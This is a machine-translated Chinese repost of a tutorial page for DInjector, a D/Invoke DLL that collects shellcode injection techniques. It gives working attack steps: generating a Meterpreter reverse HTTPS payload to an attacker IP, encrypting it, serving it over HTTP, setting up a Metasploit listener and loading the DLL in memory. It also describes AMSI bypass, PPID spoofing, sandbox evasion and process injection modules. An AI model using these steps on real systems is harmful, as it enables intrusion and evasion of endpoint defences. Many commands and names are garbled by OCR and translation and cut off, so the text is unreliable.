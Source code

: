 # DInjector:封装在 D/Invoke 武器化 DLL 中的外壳代码注入技术的集合

> 原文：<https://kalilinuxtutorials.com/dinjector/>

[![](img//56a1489b4d8b1eb05e353200607461a0.png)](https://blogger.googleusercontent.com/img/a/AVvXsEh9vfiGxWLVHrF9dV78Rro4FVv-NXFbmvvTWYDlPyFebZP5QTQ7cHIr5lgt8K491po9jFG5dUB0VEaCrMD8NXjqYyuvSE-AsLLAZZ30Iej9QxTbuXYkbP4wC3olNadxkvUNUcu8csnZ7ItpeJz-hHPvld0mC1dziyRwzuhvh06m4V4sW3Zq0sO0-oAF=s633)

**DInjector** repository 是我为各种**外壳代码注入**技术积累的代码片段，使用了由@TheWover 和@FuzzySecurity 开发的奇妙的 D/Invoke API。

特点:

*   完全移植到 D/Invoke API
*   可以从 URL 调用或以 base64 作为参数传递的加密有效负载
*   内置 AMSI 旁路
*   PPID 欺骗和阻止非微软动态链接库(从 TikiTorch 偷来的，写在这里)
*   沙盒检测和规避

ℹ️根据我的测试，DInvoke NuGet 包本身被许多商业 AV/EDR 解决方案标记为通过 costura 嵌入的资源。Fody(或类似的方法)，所以我把它缩小了一点，并从源代码中包括进来，以实现更好的 OpSec。

**免责声明。**本库中包含的所有信息仅用于教育和研究目的。作者对该工具的任何非法使用不负任何责任。

**用法**

*   在 VS 中编译项目。
*   为你最喜欢的 C2 生成一个外壳代码:

**~ $ MSF venom-p windows/x64/meter preter/reverse _ winhttps LHOST = 10 . 10 . 13 . 37 LPORT = 443 exit func = thread-f raw-o shellcode . bin**

加密外壳代码:

**~ $ encrypt . py shellcode . bin-p ' pass w0 rd！'-o enc**

提供加密的外壳代码并准备好 C2 监听器:

**~ $ sudo python 3-m http . server 80
~ $ sudo MSF console-qx "使用 exploit/multi/handler；设置有效负载 windows/x64/meter preter/reverse _ winhttps；设置 lhost 10 . 10 . 13 . 37；设置 lport 443 设置 EXITFUNC 线程；跑"**

*   使用 PowerShell 下载底座加载 DInjector.dll as`**System.Reflection.Assembly**`并从内存中执行它。

我不建议将程序集放在磁盘上，因为它很可能会被标记。

必需的全局参数:

| 名字 | 示例值 | 描述 |
| --- | --- | --- |
| `**/am51**` | **`True`，`False`** | 应用 AMSI 旁路 |
| `**/sc**` | `**http://10.10.13.37/enc**` | 设置外壳代码路径(可以从 URL 加载或作为 Base64 字符串) |
| `**/password**` | `**Passw0rd!**` | 设置密码来解密外壳代码 |

**模块**

OpSec 安全考虑基于我个人的使用经验和一些测试。

**功能指针**

**module _ name:' function pointer '
描述:
分配一个 RW 内存区，将 shell 代码复制到其中
并像函数一样执行。
调用:
ntdll . dll:
1:' ntaallocatevirtualmemory(PAGE _ READ write)'
2:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
op sec _ safe:false
引用:
' http://disbaux es . UPC . es/code/two-basic-ways-to-run-and-test-shellcode/'
' https://www . ired . team/offensive-security/offensive**

**功能点 V2**

**module _ name:' function pointer v2 '
描述:
在字节数组上设置 RX，并像函数一样执行它。
调用:
ntdll . dll:
1:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
op sec _ safe:false
引用:
' https://jhalon . github . io/utilizing-sys calls-in-cs harp-1/'
' https://jhalon . github . io/utilizing-sys calls-in-cs harp-2/'
' https://github . com/jhalon**

**剪贴板指针**

**module _ name:' clipboard pointer '
描述:
将 shellcode 字节复制到剪贴板，
在上面设置 RX 并像函数一样执行。
调用:
user 32 . dll:
1:' open clipboard '
2:' SetClipboardData '
3:' close clipboard '
ntdll . dll:
1:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
op sec _ safe:true
引用:**

**当前线程**

**module _ name:' current thread '
描述:
将外壳代码注入当前进程。
通过 NtCreateThreadEx 执行线程。
调用:
ntdll . dll:
1:' ntaallocatevirtualmemory(PAGE _ READ write)'
2:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
3:' NtCreateThreadEx '
4:' NtWaitForSingleObject '
5:' NtFreeVirtualMemory(shell code)'
op sec _ safe:false
引用:
' https://github . com/XingYun**cs’****

**currentthreaduid**

**module _ name:' currentthreaduid '
描述:
将外壳代码注入当前进程。
通过 EnumSystemLocalesA 执行线程。
调用:
kernel 32 . dll:
1:' heap create '
2:' EnumSystemLocalesA '
RP CRT 4 . dll:
1:' UuidFromStringA '
op sec _ safe:false
引用:
' https://blog . sunggwanchoi . com/eng-uuid-shellcode-execution/'
' https://github . com/choi SG/uuidid**

**远程线程**

**module _ name:' remote thread '
参数:
/pid:1337
描述:
将外壳代码注入现有的远程进程。
通过 NtCreateThreadEx 执行线程。
调用:
ntdll . dll:
1:' NtOpenProcess '
2:' ntaallocatevirtualmemory(PAGE _ READ write)'
3:' NtWriteVirtualMemory(shell code)'
4:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
5:' NtCreateThreadEx '
op sec _ safe:false
引用:
'https://github.com/S3cur**

**RemoteThreadDll**

**module _ name:' remote thread dll '
参数:
/PID:1337
/dll:msvcp _ win . dll
描述:
将外壳代码注入到现有的远程进程中
覆盖其已加载的模块之一。文本部分。
通过 NtCreateThreadEx 执行线程。
调用:
ntdll . dll:
1:' NtOpenProcess '
2:' NtWriteVirtualMemory(shellcode)'
3:' NtProtectVirtualMemory(PAGE _ EXECUTE _ READ)'
4:' NtCreateThreadEx '
op sec _ safe:–
引用:
' https://www . net ero 1010-secu**r**itylab.com/eavsion/alternative-process-injection'**

**远程线程上下文**

**module _ name:' remotethreadcontext '
参数:
/image:C:\ Windows \ System32 \ svchost . exe
/ppid:31337
/block dll:True
描述:
将外壳代码注入到新产生的远程进程中。
通过 SetThreadContext 执行线程。
调用:
kernel 32 . dll:
1:' InitializeProcThreadAttributeList '
2:' UpdateProcThreadAttribute(block dll)'
3:' UpdateProcThreadAttribute(PPID)'
4:' CreateProcessA '
ntdll:dll:
1:' ntallocatevrtualmemory(PAGE _ READ write)'
2:' NtWriteVirtualMemory(shell code)'
3:'调用**

**ProcessHollow**

**module _ name:' process hollow '**
**参数:
/image:C:\ Windows \ System32 \ svchost . exe
/ppid:31337
/block dll:True
描述:
将外壳代码注入到新生成的远程进程中。
通过 NtResumeThread 执行线程(外壳代码挖空)。
调用:
kernel 32 . dll:
1:' InitializeProcThreadAttributeList '
2:' UpdateProcThreadAttribute(block dll)'
3:' UpdateProcThreadAttribute(PPID)'
4:' CreateProcessA '
ntdll . dll:
1:' NtQueryInformationProcess '
2:' NtReadVirtualMemory(ptrImageBaseAddress)'
3:' ntprotectvirtualmtreal**

[**Download**](https://github.com/snovvcrash/DInjector)